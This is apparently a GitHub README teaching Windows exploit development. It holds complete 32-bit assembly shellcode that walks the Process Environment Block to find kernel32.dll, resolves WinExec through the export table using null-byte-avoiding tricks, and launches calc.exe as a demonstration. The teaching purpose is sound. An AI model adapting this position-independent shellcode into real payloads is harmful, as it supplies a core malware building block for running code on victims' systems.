





### PEB-Based Windows Shellcode
The classic way of making Windows shellcode which involves hardcoding the address of a specific function to run is not robust and reliable shellcode that could not run on every Windows versions.

Process Environment Block (PEB) is a structure that is used by the operating system. It contains information about the current OS so it could be used to determine and enumerate its current libraries address such as the well-known library kernel32.dll and ntdll.dll.

A demonstration of PEB-Based Shellcode that enumerate through PEB structure to extract kernel32.dll address and using the that address to enumerate again for the function of interest which is WinExec to run calculator.

```asm
[BITS 32]

start:
		push eax
		push ebx
		push ecx
		push edx
		push esi
		push edi
		push ebp

		
		push ebp
		mov ebp, esp
		sub esp, 0x18

		; Pushing WinExec string with smuggling null-byte trick 
		xor esi, esi
		mov esi, 0x01646679
		sub esi, 0x01010101
		push esi
		push 0x456e6957
		mov [ebp - 0x4], esp 	   ; "WinExec\x00"

		; Finding kernel32.dll base address
		xor esi, esi
		mov ebx, [fs:0x30]              ; Store PEB address to ebx
		mov ebx, [ebx + 0x0c]           ; Store PEB_LDR_DATA address to ebx 
		mov ebx, [ebx + 0x14]           ; Store InMemoryOrderModuleList address to ebx 
		mov ebx, [ebx]                  ; Get ntdll.dll entry
		mov ebx, [ebx]                  ; Get kernel32.dll entry
		mov ebx, [ebx + 0x10]           ; Get kernel32.dll base address
		mov [ebp - 0x8], ebx            ; kernel32.dll base address is now stored in [ebp - 0x8] 

		; Finding WinExec Address
		; Relative Virtual Address (RVA)
		mov eax, [ebx + 0x3c]      ; RVA of PE signature
		add eax, ebx               ; Address of PE signature
		
		mov eax, [eax + 0x78]      ; RVA of Export Table
		add eax, ebx               ; Address of Export Table
		
		mov ecx, [eax + 0x24]      ; RVA of Ordinal Table
		add ecx, ebx               ; Address of Ordinal Table
		mov [ebp - 0x0c], ecx
		
		mov edi, [eax + 0x20]      ; RVA of Name Pointer Table
		add edi, ebx               ; Address of Name Pointer Table
		mov [ebp - 0x10], edi
		
		mov edx, [eax + 0x1c]      ; RVA of Address Table
		add edx, ebx               ; Address of Address Table
		mov [ebp - 0x14], edx
		
		mov edx, [eax + 0x14]      ; Number of exported functions
		xor eax, eax               ; counter = 0

.loop:
		mov edi, [ebp - 0x10]      ; esi = Address of Name Pointer Table
		mov esi, [ebp - 0x4]       ; edx = "WindExec\x00"
		xor ecx, ecx

		cld                        ; set DF=0 process strings from left to right
		mov edi, [edi + eax * 0x4] ; Entries in the Name Pointer Table are 4 bytes long

		add edi, ebx               ; esi = address of string = base address + RVA nth entry
		add cx, 0x8                ; Length of strings to compare
		repe cmpsb                 ; Compare the first 8 bytes of strings in esi and edi registers. ZF=1 if equal, ZF=0 if not

		jz start.found

		inc eax                    ; counter++
		cmp eax, edx               ; check if last function is reached
		jb start.loop              ; if not the last -> loop

		add esp, 0x26
		jmp start.end              ; if function is not found, jump to end

.found:
		; counter eax holds the position of WinExec
		mov ecx, [ebp - 0x0c]      ; Address of Ordinal Table
		mov edx, [ebp - 0x14]      ; Address of Address Table
		
		mov ax, [ecx + eax * 0x2]  ; ax = ordinal number = ecx + (counter * 2)
		mov eax, [edx + eax * 0x4] ; eax = RVA of function = edx + (ordinal * 4)
		add eax, ebx               ; eax = address of WinExec
		                           ; kernel32.dll base address + RVA of WinExec
		xor edx, edx
		push edx
		push 0x6578652e
		push 0x636c6163
		push 0x5c32336d
		push 0x65747379
		push 0x535c7377
		push 0x6f646e69
		push 0x575c3a43
		mov esi, esp     		   ; esi = "C:\Windows\System32\calc.exe"
		
		push 0x10          		   ; window state SW_SHOWDEFAULT
		push esi         		   ; "C:\Windows\System32\calc.exe"
		call eax         		   ; Call WinExec
		add esp, 0x46     		   ; clear the stack

.end:
		pop ebp
		pop edi
		pop esi
		pop edx
		pop ecx
		pop ebx
		pop eax
		ret

```

### Assembling it and get object file

### Extract opcodes

### Paste it on shellcode tester code

### Calculate will pop up after execute the executable


